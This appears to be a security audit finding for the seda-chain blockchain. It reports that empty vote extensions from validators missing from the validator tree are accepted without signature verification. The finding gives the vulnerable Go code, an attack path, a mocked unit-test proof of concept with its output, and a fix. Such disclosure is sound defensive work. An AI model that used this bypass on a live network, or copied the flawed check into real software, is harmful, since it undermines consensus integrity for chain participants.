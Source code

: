 Bubbly Topaz Sidewinder

High

# Malicious validators will bypass cryptographic verification affecting consensus integrity.

### Summary

A missing validation check for empty vote extensions will cause a signature verification bypass for consensus participants as validators not in the validator tree can submit empty vote extensions that are automatically accepted without cryptographic verification.

### Root Cause

In [app/abci/handlers.go:372-380](https://github.com/sedaprotocol/seda-chain/blob/12c6b7f61a3f69e9af2da8905aaa93962ae69a81/app/abci/handlers.go#L372-L380) the code explicitly accepts empty vote extensions from validators not found in the validator tree:

```go
if err != nil {
	if errors.Is(err, collections.ErrNotFound) {
		if len(voteExtension) == 0 {
			return nil
		}
		return ErrUnexpectedBatchSignature
	}
	return err
}
```

### Internal Pre-conditions

1. A validator must not be found in the validator tree for the previous batch (this happens for new validators or during certain network conditions)
2. The validator must submit an empty vote extension (`[]byte{}`)
3. The system must be using the batch signing mechanism for consensus validation

### External Pre-conditions

None

### Attack Path

1. A malicious validator joins the network or waits until they're not recorded in the previous validator tree
2. The validator submits an empty vote extension (`[]byte{}`) during the voting phase
3. The `VerifyVoteExtensionHandler` calls `verifyBatchSignatures` which checks for the validator in the validator tree
4. When the validator isn't found AND the vote extension is empty, the code returns success without validation
5. The empty vote extension is accepted as valid without any cryptographic verification
6. The validator's vote is counted in consensus despite lacking proper authentication

### Impact

The consensus mechanism suffers a critical security bypass as validators can participate without proper cryptographic verification. This undermines the foundation of secure voting and batch signing, potentially allowing malicious validators to influence network consensus without satisfying cryptographic requirements. In a coordinated attack, this could lead to consensus failures or manipulated blockchain state.

### PoC

Add this test case into file: `app/abci/vote_extension_test.go`

```go

func TestSignatureVerificationBypass(t *testing.T) {
	// Setup similar to TestExtendVerifyVoteHandlers
	ctrl := gomock.NewController(t)
	defer ctrl.Finish()

	// Use a buffer to capture logger output
	buf := &bytes.Buffer{}
	logger := log.NewLogger(buf, log.LevelOption(zerolog.DebugLevel))

	t.Log("VULNERABILITY EXPLANATION: Empty vote extensions are automatically accepted for validators")
	t.Log("without an entry in the validator tree. This bypasses signature verification entirely.")
	t.Log("This allows malicious validators to submit empty vote extensions that will be accepted")
	t.Log("without any cryptographic verification, potentially leading to consensus failures.")

	// Use the same mocks and setup as in the existing test
	mockBatchingKeeper := testutil.NewMockBatchingKeeper(ctrl)
	mockPubKeyKeeper := testutil.NewMockPubKeyKeeper(ctrl)
	mockStakingKeeper := testutil.NewMockStakingKeeper(ctrl)

	// Create a simple context at height 100
	ctx := sdk.Context{}.WithBlockHeight(100)

	// Create a mock batch
	// Important: The batch number matters for the validator tree lookup
	mockBatch := batchingtypes.Batch{
		BatchNumber: 99, // The batch number that will be returned
		BatchId:     []byte("test_batch_id"),
		BlockHeight: 99,
	}

	// Setup an unknown validator with the correct address length (20 bytes)
	// Use simtestutil to generate a valid address like the main test does
	randomAcct := simtestutil.CreateRandomAccounts(1)[0]
	unknownValAddr := sdk.ValAddress(randomAcct)

	// Create a consensus address with correct length (20 bytes)
	testConsAddr := sdk.ConsAddress(bytes.Repeat([]byte{1}, 20))

	t.Log("Root cause #1: For validators not in the validator tree, the code doesn't require any signature")
	t.Log("Root cause #2: Empty signatures ([]byte{}) are explicitly accepted rather than rejected")
	t.Log("Root cause #3: This creates a path where empty vote extensions are automatically accepted")

	// Fix 1: The handler is requesting batch for height 99 (height-1)
	mockBatchingKeeper.EXPECT().GetBatchForHeight(gomock.Any(), int64(99)).Return(mockBatch, nil)

	// Fix 2: The handler is looking for validator by address string, not bytes
	mockStakingKeeper.EXPECT().GetValidatorByConsAddr(gomock.Any(), testConsAddr).Return(
		stakingtypes.Validator{
			OperatorAddress: unknownValAddr.String(),
		}, nil,
	)

	// Fix 3: Validator tree entry is not found for this validator
	// The handler is looking for batch number - 1 (99-1=98), not batch number itself
	mockBatchingKeeper.EXPECT().GetValidatorTreeEntry(gomock.Any(), uint64(98), unknownValAddr).
		Return(batchingtypes.ValidatorTreeEntry{}, collections.ErrNotFound)

	// Create the handler
	handler := NewHandlers(
		baseapp.NewDefaultProposalHandler(mempool.NoOpMempool{}, nil),
		mockBatchingKeeper,
		mockPubKeyKeeper,
		mockStakingKeeper,
		authcodec.NewBech32Codec(sdk.GetConfig().GetBech32ValidatorAddrPrefix()),
		nil, // No signer for this test
		logger,
	)

	// Get the verify vote handler
	verifyVoteHandler := handler.VerifyVoteExtensionHandler()

	t.Log("EXPLOIT DEMONSTRATION: Testing empty vote extension from validator not in the tree")
	// Test 1: Exploit the vulnerability - an empty vote extension should be incorrectly accepted
	vvRes, err := verifyVoteHandler(ctx, &cometabci.RequestVerifyVoteExtension{
		Height:           100,
		VoteExtension:    []byte{}, // Empty vote extension - exploits vulnerability
		ValidatorAddress: testConsAddr,
	})

	require.NoError(t, err)
	require.Equal(t, cometabci.ResponseVerifyVoteExtension_ACCEPT, vvRes.Status,
		"Empty vote extension from unknown validator should be incorrectly accepted")
	t.Log("VULNERABILITY CONFIRMED: Empty vote extension was accepted without verification")

	t.Log("SECURITY IMPACT: This vulnerability could allow a validator to submit invalid vote extensions")
	t.Log("that skip cryptographic verification, potentially affecting consensus integrity.")
	t.Log("In production, this could lead to consensus failures or allow manipulated network behavior.")

	// Test 2: Provide a non-empty but invalid vote extension - should be rejected
	mockBatchingKeeper.EXPECT().GetBatchForHeight(gomock.Any(), int64(99)).Return(mockBatch, nil)
	mockStakingKeeper.EXPECT().GetValidatorByConsAddr(gomock.Any(), testConsAddr).Return(
		stakingtypes.Validator{
			OperatorAddress: unknownValAddr.String(),
		}, nil,
	)
	mockBatchingKeeper.EXPECT().GetValidatorTreeEntry(gomock.Any(), uint64(98), unknownValAddr).
		Return(batchingtypes.ValidatorTreeEntry{}, collections.ErrNotFound)

	t.Log("VERIFICATION: Testing that non-empty invalid vote extensions are still rejected")
	vvRes, err = verifyVoteHandler(ctx, &cometabci.RequestVerifyVoteExtension{
		Height:           100,
		VoteExtension:    []byte("invalid_signature"), // Non-empty but invalid
		ValidatorAddress: testConsAddr,
	})

	// This should either return an error or be rejected
	if err == nil {
		require.Equal(t, cometabci.ResponseVerifyVoteExtension_REJECT, vvRes.Status,
			"Invalid non-empty signature should be rejected")
		t.Log("CONFIRMED: Non-empty invalid signatures are still properly rejected")
	} else {
		require.Error(t, err, "Invalid non-empty signature should cause an error")
		t.Log("CONFIRMED: Non-empty invalid signatures cause errors as expected")
	}

	t.Log("REMEDIATION: The code should be fixed to reject empty vote extensions and")
	t.Log("always require valid signatures, even from validators not in the validator tree.")
}
```

Result example:
```bash
Running tool: /opt/homebrew/bin/go test -timeout 30s -run ^TestSignatureVerificationBypass$ github.com/sedaprotocol/seda-chain/app/abci

=== RUN   TestSignatureVerificationBypass
    seda/seda-chain/app/abci/vote_extension_test.go:130: VULNERABILITY EXPLANATION: Empty vote extensions are automatically accepted for validators
    seda/seda-chain/app/abci/vote_extension_test.go:131: without an entry in the validator tree. This bypasses signature verification entirely.
    seda/seda-chain/app/abci/vote_extension_test.go:132: This allows malicious validators to submit empty vote extensions that will be accepted
    seda/seda-chain/app/abci/vote_extension_test.go:133: without any cryptographic verification, potentially leading to consensus failures.
    seda/seda-chain/app/abci/vote_extension_test.go:159: Root cause #1: For validators not in the validator tree, the code doesn't require any signature
    seda/seda-chain/app/abci/vote_extension_test.go:160: Root cause #2: Empty signatures ([]byte{}) are explicitly accepted rather than rejected
    seda/seda-chain/app/abci/vote_extension_test.go:161: Root cause #3: This creates a path where empty vote extensions are automatically accepted
    seda/seda-chain/app/abci/vote_extension_test.go:192: EXPLOIT DEMONSTRATION: Testing empty vote extension from validator not in the tree
    seda/seda-chain/app/abci/vote_extension_test.go:203: VULNERABILITY CONFIRMED: Empty vote extension was accepted without verification
    seda/seda-chain/app/abci/vote_extension_test.go:205: SECURITY IMPACT: This vulnerability could allow a validator to submit invalid vote extensions
    seda/seda-chain/app/abci/vote_extension_test.go:206: that skip cryptographic verification, potentially affecting consensus integrity.
    seda/seda-chain/app/abci/vote_extension_test.go:207: In production, this could lead to consensus failures or allow manipulated network behavior.
    seda/seda-chain/app/abci/vote_extension_test.go:219: VERIFICATION: Testing that non-empty invalid vote extensions are still rejected
    seda/seda-chain/app/abci/vote_extension_test.go:233: CONFIRMED: Non-empty invalid signatures cause errors as expected
    seda/seda-chain/app/abci/vote_extension_test.go:236: REMEDIATION: The code should be fixed to reject empty vote extensions and
    seda/seda-chain/app/abci/vote_extension_test.go:237: always require valid signatures, even from validators not in the validator tree.
--- PASS: TestSignatureVerificationBypass (0.00s)
PASS
ok      github.com/sedaprotocol/seda-chain/app/abci     1.286s
```

### Mitigation

1. Removing the automatic acceptance of empty vote extensions:
```go
if errors.Is(err, collections.ErrNotFound) {
	// if len(voteExtension) == 0 {
	// 	return nil
	// }
	return ErrUnexpectedBatchSignature
}
```
3. Implementing explicit conditions for when vote extensions can be skipped, based on validator status rather than extension content.
4. Adding logging for unexpected signature absences to help detect potential attacks.
5. Clearly documenting in the codebase when and why validators might be allowed to skip providing vote extensions, if this is an intended feature.
